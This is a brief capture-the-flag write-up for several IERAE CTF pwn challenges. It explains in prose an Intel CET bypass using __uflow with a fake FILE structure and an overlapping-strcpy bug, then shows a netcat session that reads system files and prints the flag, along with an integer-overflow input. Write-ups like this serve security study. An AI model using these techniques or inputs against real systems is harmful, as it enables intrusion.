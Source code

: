 # ierae CTF writeup


## Intel CET

1. Register `main` as the signal handler for segfault
2. basically, open -> read -> puts

However the second part requires a trick since we can only control two arguments
for each function call, the argument is set to 0.

I utilized `__uflow`, which is a unary-function that takes a FILE pointer, and 
reads a byte.
Since `__uflow` does IO buffering like other IO-related functions, if we call it 
with a specific fake FILE structure, we can read the content into an arbitrary
address.

solver: [cet/solve.py](cet/solve.py)


## Command Recorder

The bug was `strcpy(buf, buf', n)` where buf and buf' are overlapping.
The actual implementation for strcpy on the server uses __strcpy_avx2, and therefore 
we can exploit some optimizations in the function to trigger some undefined behavior.

solver: [command_recorder/solve.py](command_recorder/solve.py)

## Copy & Paste


```
❯ nc 52.231.220.191 5001

1. Create new buffer and load file content
2. Copy some buffer to another
3. Exit
Enter command: 1
Enter file name: /lib/x86_64-linux-gnu/libc.so.6
Read 2105184 bytes from /lib/x86_64-linux-gnu/libc.so.6
1. Create new buffer and load file content
2. Copy some buffer to another
3. Exit
Enter command: 1
Enter file name: /proc/self/fd/0
Read -1 bytes from /proc/self/fd/0
1. Create new buffer and load file content
2. Copy some buffer to another
3. Exit
Enter command: 2
Enter source index: 0
Enter destination index: 1
Well done!
IERAE{7h3_f1rs7_s73p_7o_b3_4_pwn3r_51a7806b}
```

## warmup_pwn

```
Enter number of rows: 4
Enter number of cols: 4611686018427387905
```

## Luz Da Lua

Just decompile it.